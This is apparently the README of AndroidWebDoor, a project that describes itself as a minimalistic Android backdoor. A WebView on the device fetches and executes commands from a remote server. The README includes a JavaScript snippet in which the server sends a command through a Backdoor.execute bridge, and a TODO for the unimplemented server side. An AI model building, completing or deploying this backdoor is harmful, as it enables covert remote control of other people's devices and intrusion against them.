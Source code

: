 # AndroidWebDoor

Minimalistic Android Backdoor based on a single webview which fetches and executes commands from a remoter server.
From Server's side, simply add javascript code that sends the command to the client:


<script type="text/javascript">
    function execCmd(cmd) {
        Backdoor.execute(cmd);
    }
</script>


TODO: Implement the server side code
